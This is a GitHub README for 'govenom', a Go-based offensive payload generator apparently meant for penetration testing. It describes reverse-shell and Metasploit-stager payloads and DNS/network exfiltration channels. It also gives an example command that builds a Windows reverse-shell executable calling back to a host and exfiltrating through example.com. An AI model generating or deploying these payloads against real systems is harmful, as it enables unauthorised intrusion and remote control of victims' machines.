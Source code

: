 <p align="center">
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
    <a href="http://pkg.go.dev/github.com/erikgeiser/govenom"><img alt="Go Doc" src="https://img.shields.io/badge/godoc-reference-blue.svg?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms, although currently `govenom` has a
strong focus on Windows as payload target platform.

## Payloads

Currently, three payloads are supportet:

* **rsh:** A simple reverse TCP shell. It selects one of the most
common shells and makes it available via TCP or UDP connection.
* **xrsh:** An extenden robust reverse TCP shell. A simple heuristic
determines the must suitable shell executable, taking shells that
are installed buth not in `$PATH` into account. In contrast to most
other available shells out there, additional info can be sent via
alternative communication channels via the exfiltration mechanism
(see relevant section below). For example, if no shell could be
detected or the connection could not be established due to a
firewall, the corresponding error can be exfiltrated via DNS.
* **stager**: A TCP based shellcode stager that is compatible with
Metasploits `exploits/multi/handler` with a `meterpreter/reverse_tcp`
payload. It first reads a 4 Byte shellcode length and then the
shellcode itself from a TCP connection and executes it. Currently,
this is only available for Windows targets.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections, or maybe one of
the ports you tried. Maybe you expected `powershell` to be present
but only `cmd` is there. The solution to problem is the `govenom`
debug log exfiltration mechanism which can optionally be used with
`xrsh` and `stager` payloads. It lets you configure an arbitrary
amount of exfiltration strategies of the following types:

* **`stdout`/`stderr`:** If you can capture the output of your
payload when it's executed, you can output debug logs via
`stdout/stderr`.

* **DNS:** The most useful exfiltration type because noone blocks
DNS. Messages are encoded and split into parts which can be put
together again by the `govenom` tool `dnslogger` (see section
below).

* **File:** Write the debug information into a file on the target
system. This is for example useful if you can recover files via a
local file inclusion vulnerability.

* **Net (`dial`):** Send the debug log via a TCP or UDP connection
that's different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

* **dnslogger:** The `dnslogger` tool decodes and recombines messages
that were exfiltrated via DNS.

* **pusher:** The `pusher` tool can serve and deliver `meterpreter`
shellcode generated using `msfvenom` to the `govenom` stager payload.

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
go run ./govenom.go payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run the 
go run ./govenom.go tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## Plans

* Connection encryption
* Reverse shell listener like `ncat` with loggin capabilities
* Embedding payload code into the `govenom` binary
* Windows support for the `stager` payload